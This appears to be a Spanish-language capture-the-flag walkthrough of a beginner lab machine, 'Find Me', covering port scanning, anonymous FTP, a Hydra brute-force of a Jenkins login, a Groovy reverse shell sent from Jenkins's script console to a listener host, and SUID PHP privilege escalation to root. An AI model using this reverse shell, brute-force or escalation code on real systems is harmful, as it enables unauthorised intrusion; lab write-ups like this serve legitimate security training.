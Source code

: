 ```yaml
---
description: '🔍 Dificultad: Principiante'
---
```


# Find Me

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.91
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (12) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -p- --open 192.168.1.91 --min-rate 5000 -n
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 21** perteneciente al **servicio FTP, puerto 22** perteneciente al **servicio SSH,** el **puerto 80** perteneciente al **servicio HTTP** y el **puerto 8080** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p21,22,80,8080 -v 192.168.1.91
```

para obtener más información sobre ese puerto específicamente.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora exploramos el servicio **HTTP**. Ingresamos la IP y nos encontramos la página de por defecto de **Apache**.&#x20;

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ingresamos la IP pero a través del **puerto 8080** y nos encontramos con el panel de login de **Jenkins**.

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Al realizar el escaneo encontramos que tenemos acceso anónimo a través de FTP por lo que indagaremos si hay algo relevante. Vemos una nota de `ayuda.txt` por lo que nos la descargamos.

```bash
ftp 192.168.1.91
ls
get ayuda.txt
```

Al mostrar el contenido encontramos un usuario llamado **geralt**. Nos da pistas de lo que recuerda por lo que creamos un diccionario con las distintas posibilidades a tavés de **Crunch**.

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
crunch 5 5 -t p@@@a -o diccionario.txt
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Ingresamos el usuario descubierto con una contraseña cualquiera y al inspeccionar la pagina en **Network** cogemos la distinta informacion para realizar el ataque de fuerza bruta.

```bash
hydra -l geralt -P diccionario.txt 192.168.1.91 -s 8080 http-post-form "/j_spring_security_check:j_username=^USER^&j_password=^PASS^&from=&Submit=:c=/login:Invalid username or password" -f -V
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Iniciamos sesión en **Jenkins** con las credenciales.

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Seleccionamos **manage jenkin**s y luego **script console** que nos permite enviar una reverse shell mediante **Groovy** mediante nos ponemos en escucha.

```bash
String host="192.168.1.50";int port=443;String cmd="sh";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

```bash
nc -nvlp 443
```

<figure><img src="../../.gitbook/assets/image (751).png" alt=""><figcaption></figcaption></figure>

Hacemos tratamiento de la TTY. Nos cambiamos de usuario a **geralt**.

<figure><img src="../../.gitbook/assets/image (754).png" alt=""><figcaption></figcaption></figure>

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar. Requiere contraseña.&#x20;

Buscamos archivos con permisos **SUID**.

```bash
find / -perm -4000 -ls 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (756).png" alt=""><figcaption></figcaption></figure>

Buscamos en la página [GTFObins](https://gtfobins.github.io/gtfobins/php/).

```bash
/usr/bin/php8.2 -r "pcntl_exec('/bin/sh', ['-p']);"
```

<figure><img src="../../.gitbook/assets/image (757).png" alt=""><figcaption></figcaption></figure>

Ya somos **root**.&#x20;

Te deseo mucho éxito en tu búsqueda de las flags! Recuerda prestar atención a cada detalle, examinar los archivos y servicios con detenimiento, y utilizar todas las herramientas disponibles para encontrarlas. La clave para el éxito está en la perseverancia y en no dejar ningún rincón sin explorar. ¡Adelante, hacker! 💻🔍🚀
